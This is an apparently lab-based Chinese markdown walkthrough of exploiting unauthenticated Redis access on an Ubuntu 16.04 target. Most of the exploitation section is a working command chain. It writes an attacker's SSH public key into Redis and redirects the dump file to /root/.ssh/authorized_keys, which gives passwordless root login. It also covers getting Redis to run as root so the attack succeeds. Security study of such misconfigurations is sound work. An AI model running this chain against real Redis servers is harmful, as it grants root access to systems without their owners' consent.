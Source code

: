 # redis未授权访问

## 漏洞证明

安装redis服务

`apt install redis-tools`

访问redis服务

`redis-cli -h ip [-p 6379]`

![image-20210625152251553](.\images\image1.png)

## 测试环境

靶机：ubuntu 16.04

## 漏洞利用

#### SSH免密登陆（redis必须以root身份安装）

#### 生成ssh公钥/私钥

`ssh-keygen -t rsa -C "hack"`

![image-20210625180331909](.\images\image2.png)

![image-20210625180435209](.\images\image3.png)

#### 将生成的公钥写入文件中

`(echo -e "\n\n\n"; cat id_rsa.pub; echo -e "\n\n\n") > hack.txt`

![image-20210629170844032](.\images\image4.png)

#### 将hack.txt写入靶机

`cat hack.txt| redis-cli -h 192.168.5.135 -x set crack`



![image-20210629171115871](.\images\image5.png)

#### 查看redis备份文件路径

`config get dir`

#### 修改靶机redis备份路径

`config set dir /root/.ssh`

![image-20210701152616766](.\images\image7.png)

![image-20210701160625010](.\images\image8.png)

说明redis不是以root用户启动

解决办法

1）网上下载redis包并make编译安装，在安装目录下执行以下命令

`./redis-server`

2）在redis-server文件所在位置启动redis

`/usr/bin/redis-server`

![image-20210701160709356](.\images\image9.png)

![image-20210701160922771](.\images\image10.png)

#### 修改备份路径成功

![image-20210701161720971](.\images\image11.png)

#### 设置上传公钥的备份文件名为authorized_keys

`config set dbfilename authorized_keys`

![image-20210701164324402](.\images\image12.png)

#### ssh免密连接

`ssh -i id_rsa root@192.168.5.135`

![image-20210701165622742](.\images\image13.png)

